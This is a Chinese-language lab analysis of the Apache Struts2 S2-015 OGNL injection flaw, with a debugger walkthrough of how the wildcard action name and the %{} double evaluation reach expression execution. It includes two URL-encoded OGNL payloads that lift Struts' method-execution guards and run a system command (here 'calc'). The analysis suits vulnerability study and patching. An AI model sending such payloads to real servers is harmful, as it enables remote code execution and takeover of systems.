 # S2-015 Demo

## Summary

Impact of vulnerability: Remote command execution, remote server context manipulation, injection of malicious client side code

Affected Software:  `Struts 2.0.0` - `Struts 2.3.14.2`

Problem: 

1. action的名称没有转义和检查是否符合白名单。一个场景是当action name配置为通配符，攻击者可以通过访问`<ognl_expression>.action`来传入`ognl`表达式，并在加载`jsp`文件时触发执行。

   ```java
   <action name="*" class="example.ExampleSupport">
       <result>/example/{1}.jsp</result>
   </action>
   ```

   ![{3F466E24-9A06-4BB6-81E5-FA37C1198FC9}_20200720185919]({3F466E24-9A06-4BB6-81E5-FA37C1198FC9}_20200720185919.jpg)

   `payload1`: 

   ```
   /s2_015_war_exploded/%24%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%63%61%6c%63%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d.action
   ```

   

2. 当`$`和`%`字符组合使用时，`ognl`表达式会被`TextParseUtil.translateVariables`二次执行。

   ```java
   <action name="Helloworld" class="org.test.HelloworldAction">
   	<result name="success" type="httpheader">
   		<param name="headers.foobar">${message}</param>
   	</result>
   </action>
   ```

   ![{E450977C-E4EB-4B47-9D8B-494207ADCDDD}_20200721165527]({E450977C-E4EB-4B47-9D8B-494207ADCDDD}_20200721165527.jpg)

   `payload2`: 

   ```
   /s2_015_war_exploded/Helloworld.action?message=%25%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%63%61%6c%63%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d
   ```

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

## Debug

先看第一个问题。在`s2-015/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/DefaultActionInvocation.class:199`下个断点，这块是已经通过前面的interceptor，准备执行action的execute方法。

发送`payload1`触发断点。

![image-20200721182849833](img/image-20200721181343029.png)

跟入`executeResult()`，创建了一个`ServletDispatcherResult`对象，即默认的result类型为dispatcher（转发）。

![image-20200721184020081](img/image-20200721182650792.png)

跟进`execute()`，两行代码分别是解析要转发的地址以及执行转发操作：

```
public void execute(ActionInvocation invocation) throws Exception {
	this.lastFinalLocation = this.conditionalParse(this.location, invocation); //解析要转发的地址，ongl解析就发生在这里
	this.doExecute(this.lastFinalLocation, invocation); //执行转发操作
}
```

继续跟进`conditionalParse()` -> `translateVariables()` -> `translateVariables()` -> `translateVariables()`，该函数首先扫描`location`中是否存在`${`}和`%{}`的字符串，如果有就将其中的表达式截取出来，并通过`stack.findValue()`查找，最终触发`ognl`表达式：

![image-20200721184634621](img/image-20200721184634621.png)

## Reference

- [S2-015](https://cwiki.apache.org/confluence/display/WW/S2-015)
- [S2-015 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-015/README.zh-cn.md)

